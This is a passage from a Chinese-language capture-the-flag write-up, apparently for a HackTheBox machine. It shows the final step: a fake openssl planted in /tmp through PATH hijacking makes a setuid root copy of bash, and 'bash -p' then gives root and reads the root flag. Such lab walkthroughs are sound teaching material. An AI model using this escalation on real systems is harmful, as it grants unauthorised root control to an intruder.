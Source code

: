 回到另一个环节，与代用工具互动。然后当它试图使用 openssl 时，它将使用我们的版本，因为/tmp 在实际文件所在的/usr/bin 之前的路径列表中。

检查/tmp 文件夹，查看 bash 已被复制到其中，并且 sticky 位已被设置:

```
www-data@pki:/tmp$ ls -lsa
ls -lsa
   4 -rwxr-xr-x 1 www-data www-data      40 Nov  6 19:33 openssl
1088 -rws------ 1 root     www-data 1113504 Nov  6 19:38 bash
```

最后，我们可以升级到 root 并获取标志:

```
www-data@pki:/tmp$ bash -p
id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data)
cat /root/root.txt
<HIDDEN>
```

那是一个又长又难的盒子，但很有趣，我学到了一些非常值得的东西。我希望你也喜欢。下次见。

如果你喜欢这篇文章，请给我一两个掌声。

推特—【https://twitter.com/pencer_io】T4
网站— [https://pencer.io](https://pencer.io/)

*原载于 2021 年 12 月 19 日*[*https://pencer . io*](https://pencer.io/ctf/ctf-htb-static/)*。*